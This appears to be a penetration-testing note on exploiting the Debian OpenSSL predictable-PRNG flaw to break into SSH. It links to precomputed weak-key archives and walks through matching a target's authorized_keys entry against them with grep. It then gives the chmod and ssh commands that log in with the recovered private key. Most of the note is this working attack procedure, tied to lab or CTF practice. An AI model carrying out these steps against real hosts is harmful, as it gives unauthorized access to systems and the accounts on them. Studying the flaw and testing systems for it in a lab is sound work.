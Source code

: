 ```yaml
---
description: >-
  OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute
  Force SSH
---
```


# Debian OpenSSL Predictable PRNG Bruteforce SSH Exploit

https://osandamalith.com/2013/11/16/rooting-pwnos/

https://www.exploit-db.com/exploits/5632

https://github.com/g0tmi1k/debian-ssh

On the target host, we find it with seeing blacklist rsa, blacklist dsa keys files, or checking version of openssl.

```
$ openssl
> version
```

Since the random number generator does not work as it should, the generated keys are exposed to brute force.

We had obtained the authorized\_keys file from the target machine. This file contains public keys. We will try to find the private key of this key.

We need to specify key method via authorized\_keys file. At the beginning of the file we can see the method.

For dsa - [https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5632.tar.bz2](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5632.tar.bz2)

For ssh-rsa  - [https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2)

After the extracting the zip file, we will get in the directory. We need to select related part of authorized\_keys file, then we search it in the directory with grep.

```
$ grep -rl PUBLIC_KEY_PART *.pub
00005b35764e0b2401a9dcbca5b6b6b5-1390.pub

chmod 600 00005b35764e0b2401a9dcbca5b6b6b5-1390
# For dsa
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oPubkeyAcceptedKeyTypes=+ssh-dss -i 00005b35764e0b2401a9dcbca5b6b6b5-1390 -o PasswordAuthentication=no test@192.168.1.2
```
